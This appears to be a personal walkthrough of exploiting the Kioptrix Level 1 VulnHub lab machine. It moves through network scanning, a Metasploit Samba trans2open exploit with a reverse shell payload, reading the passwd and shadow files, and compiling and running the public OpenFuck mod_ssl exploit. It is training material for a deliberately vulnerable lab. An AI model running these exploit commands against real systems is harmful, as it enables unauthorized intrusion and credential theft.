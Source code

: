 # Kioptrix-level 1
(Screenshots are going to be seperate)\
Hey so I'm going to be be going over the process of pwning kioptrix level 1 vulnhub machine. So I started off by using Arpscan to scan for available devices so:
```arp-scan -l```
Then I was going to identify it using the MAC address, so in my case I was looking on all possible vendors and eliminating what's not useful. So in my case the MAC address was ```1a:c0:1e:91:41:b9``` you can usually also lookup MAC addresses online because first 3 octets identify the vendor so whatever comes from a specific vendor has the sama first 3 octets (OUI or Organizational Unique Identifier) and the last 3 (NIC or Network Interface Controller) are special for each device. So in my case it was unknown for the vendor possibly because it was hosted on a vm. So in the Arp scan along with the MAC address you get an IP address in my case it was ```192.168.1.44```. Then my next step was to scan that IP address using NMAP to see possible open ports and other information so I used ```nmap -T4 -A -p- 192.168.1.44``` or for realistic taste you can try ```nmap -T4 -sS -A -p- 192.168.1.44``` and the latter I added the "-sS" for stealth scan. So in my results I had 6 open tcp ports (22, 80, 111, 139, 443, 32768). So I ran nikto then went to watch the http and https: ```nikto -h http://192.168.1.44``` as I went to the website it was a default apache page so if that was a real pentest that would give us an idea about the hygiene of the client (awful). In most cases that http with poor hygiene is a finding but after I ran dirbuster it turned it that it didn't have anything important. So we also have the smb port open very important we can run metasploit to scan the version so:
```msfconsole```
```use auxiliary/scanner/smb/smb_version```
```options```
```set RHOSTS 192.168.1.44```
```run```
So the results we got that it's running "Unix (Samba 2.2.1a)"
we can google "Unix (Samba 2.2.1a) exploits" or we can try to login with smbclient to the address (but it failed).
So it's possibly vulnerable to "Samba trans2open Overflow (Linux x86)" by rapid 7 (metasploit) so let's see:
```msfconsole```
```use exploit/linux/samba/trans2open```
```option```
```set LHOST```
```set RHOSTS```
```run``` or ```exploit```
Most likely it's not going to work so a soultion that has worked to me was to change the current payload "linux/x86/shell_reverse_tcp" so :
```set payload linux/x86/shell_reverse_tcp```
```run``` or ```exploit```
Then Most likely you will have a shell. From here you can ```cd``` until you get to home then ```cd etc``` then ```cat passwd``` and ```cat shadow```
So that's the metasploit route, now let's try to use a manual exploit. So in the scanning I found "mode SSL" on https (Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b). So I looked on google for compatible exploits and found "OpenLuck" on github by heltonWernik. So follow the direction ->
```git clone https://github.com/heltonWernik/OpenFuck.git```
```apt-get install libssl-dev```
```gcc -o OpenFuck OpenFuck.c -lcrypto```
```./OpenFuck```
Now we are going to start using the exploit
```./OpenFuck 0x6b 192.168.1.44 -c 40```
You should get a shell
then try things like:
```whoami```
```hostname```
So that was it for this machine, I hope y'all learned something or more and hopefully there will be more content.
